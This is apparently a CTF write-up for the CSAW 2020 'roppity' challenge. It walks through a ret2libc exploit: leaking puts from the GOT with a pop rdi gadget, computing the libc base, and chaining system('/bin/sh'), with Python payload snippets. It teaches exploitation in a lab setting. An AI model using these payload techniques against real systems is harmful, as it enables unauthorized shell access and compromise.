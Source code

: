 # CSAW CTF Quals 2020
# roppity
Simple ret2libc problem. There are a binary rop and a library libc-2.27.so.

Use gdb or ghidra to look into rop binary, and found that there is no useful function to use, then the useful functions will be in libc.

We find the function system(), which can execute command, therefore, if we can know the address of this function, we can jump to this functionand execute command through it, and we also find a useful string "/bin/sh" in library. Same as function system, if we know the address of the string, we can use it as our command.

The main problem will be finding the correct address of the libc. According to the dynamic loading, the address of the library will be a random base address plus the offset of the function in library, which means that we only need to know the random base address, since the offset of the function is already known.

Due to ASLR, the base address will be randomized every execution. Therefore, we need to find the base address and use it as the same execution.

The simplest way to find the base address is to find the real address of the function in got table, we need to obtain this address, and this address is constructed by real address = base address + function offset, then base address = real address - function offset.

In binary rop plt table, there is a function puts, which can be choosed as the target and also output the address.

Since this is a x86_64 structure, function argument is strored in rdi, rsi... we put the got address of the puts function into rdi, and call puts function, then the process will print the address of puts.
```
#gadget for pop value into rdi
gadget1 = 0x0400683 # pop rdi ; ret

```
We can obtain plt, and got throught ELF:
```
elf_prog = ELF("./rop")
got_puts = elf_prog.got['puts']
plt_puts = elf_prog.plt['puts']
```
We know that the buffer is 32 bytes, and there is also a 8 bytes rbp.

There is also a stack alignment problem for ubuntu 18.04, and we need to add one more ret gadget for rop chain.

After obtaining the address of puts, we need to jump back to the beginning of the main function.

The first payload will be:
```
b'A'*40 + align_gadget + p64(gadget1) + p64(got_puts) + p64(plt_puts) + p64(main) 
```
Next, we can use this address to get base address, and use this base address to calculate system and "/bin/sh" address.
```
...
base = proc.recvline()
libc_puts = u64(base[:-1].ljust(8, b'\x00'))
#obtain the base address of libc, calculate correct system function address and string "/bin/sh" address
libc_base = libc_puts - libc.symbols['puts']
libc_system = libc_base + libc.symbols['system']
libc_binsh = libc_base + libc.search('/bin/sh').next()
...
```
Finally, we can pop the "/bin/sh" into rdi and call system function.
```
b'A'*40 + p64(gadget1) + p64(libc_binsh) + p64(libc_system)
```
